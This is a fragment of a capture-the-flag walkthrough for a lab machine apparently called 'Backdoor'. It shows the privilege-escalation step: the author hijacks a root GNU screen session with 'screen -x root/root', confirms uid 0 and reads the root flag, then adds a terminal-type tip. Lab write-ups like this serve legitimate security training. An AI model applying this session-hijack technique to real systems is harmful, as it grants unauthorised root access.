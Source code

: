 * So as there were no exploits available on the internet we have to play with the flags
* I tried to exploit with help of GTFO bins and some flags around here
* So we can get root shell with the `-x` flag : `-x UserYouWannaHijackSession / HisSessionName`

### **Shell**

```bash
user@Backdoor:~$ /usr/bin/screen -x root/root
/usr/bin/screen -x root/root

root@Backdoor:~# id
id
uid=0(root) gid=0(root) groups=0(root)
root@Backdoor:~# cat /root/root.txt
<--SNIPPED-->
```

* If you didn't get the shell or some error like `Please set a terminal type.` use this command `export TERM=xterm`

**Box pwned**

![image](https://user-images.githubusercontent.com/56447720/143611602-d17a27c8-6c0c-4321-a196-aacaf50c8a97.png)
